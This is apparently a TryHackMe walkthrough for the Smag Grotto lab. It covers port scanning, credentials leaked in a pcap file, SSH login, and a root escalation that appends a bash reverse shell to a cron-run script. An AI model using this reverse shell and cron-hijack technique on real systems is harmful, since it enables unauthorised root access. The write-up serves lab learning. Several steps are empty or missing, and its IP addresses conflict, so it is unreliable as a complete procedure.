 # Smag Grotto

<div align="left">

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Smag Grotto](https://tryhackme.com/room/smaggrotto)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.137.60`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.71.2 smag.thm" >> /etc/hosts

mkdir thm/smag.thm
cd thm/smag.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 smag.thm
PING smag.thm (10.10.71.2) 56(84) bytes of data.
64 bytes from smag.thm (10.10.71.2): icmp_seq=2 ttl=63 time=97.3 ms
64 bytes from smag.thm (10.10.71.2): icmp_seq=3 ttl=63 time=68.6 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

### 2.1 - What is the secret spicy soup recipe?

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 smag.thm -oG nmap/port_scan
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-31 18:24 EDT
Initiating SYN Stealth Scan at 18:24
Scanning smag.thm (10.10.71.2) [65536 ports]
Discovered open port 80/tcp on 10.10.71.2
Discovered open port 22/tcp on 10.10.71.2
Completed SYN Stealth Scan at 18:24, 18.21s elapsed (65536 total ports)
Nmap scan report for smag.thm (10.10.71.2)
Host is up, received user-set (1.8s latency).
Scanned at 2023-07-31 18:24:20 EDT for 19s
Not shown: 59890 closed tcp ports (reset), 5644 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 22, 80.

Now, we need to search which services are running on open ports:

```bash
nmap -p22,80 -n -Pn -vvv -sCV --min-rate 5000 smag.thm -oN nmap/open_port
```

We can start to explore website (80):

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-31-11 (1).png" alt=""><figcaption></figcaption></figure>

we see that website is under development, it means that can be vulnerabilities, try to explore source code:

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-31-37.png" alt=""><figcaption></figcaption></figure>

Nothing of interesting! We can try to use gobuster to search hidden paths:

```bash
gobuster dir -u http://smag.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

```bash
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://smag.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/31 18:35:16 Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 303] [--> http://smag.thm/mail/]
Progress: 87664 / 87665 (100.00%)
===============================================================
2023/07/31 18:45:07 Finished
===============================================================
```

We find 'only' this good path: http:\\\smag.thm/mail

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-38-33.png" alt=""><figcaption><p><a href="https://http/smag.thm/mail">http:\\smag.thm/mail</a></p></figcaption></figure>

Give focus on this .pcap file (wireshark extension), how first paragraph suggests, we can download all attachments using wget command.

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-39-26.png" alt=""><figcaption></figcaption></figure>

We can open file downloaded using wireshark or command strings:

```
strings dHJhY2Uy.pcap 
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-08-01 00-49-23.png" alt=""><figcaption></figcaption></figure>

</div>

There's a fantastic info: username=helpdesk\&password=cH4nG3M3\_n0w

We can use this credentials to try ssh access:

```bash
ssh helpdesk@smag.thm
```





### Task 3 - What is the user flag? 

\


We quickly try to find user.txt flag using find command:\


```bash
```







```bash
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>



</details>

### Task 4 - What is the root flag? 



We can continue to explore files:

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

We see that planner.sh will be run as root (with a cron job), and use /etc/print.sh with lennie permission, we can modify it inserting a reverse shell as payload:

```bash
echo "/bin/bash -i >& /dev/tcp/10.9.80.228/666 0>&1" >> /etc/print.sh                                                     
```

Then, we run on our kali machine netcat on the same port (666):

```bash
nc -nvlp 666
```

and wait root that will run the planner.sh script once a minute.

<figure><img src="../.gitbook/assets/Schermata del 2023-07-30 12-37-21.png" alt=""><figcaption></figcaption></figure>

Well done! We find root flag:

```bash
ls
cat root.txt
```

<div align="left">

<figure><img src="../.gitbook/assets/Schermata del 2023-07-30 12-38-55.png" alt=""><figcaption></figcaption></figure>

</div>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
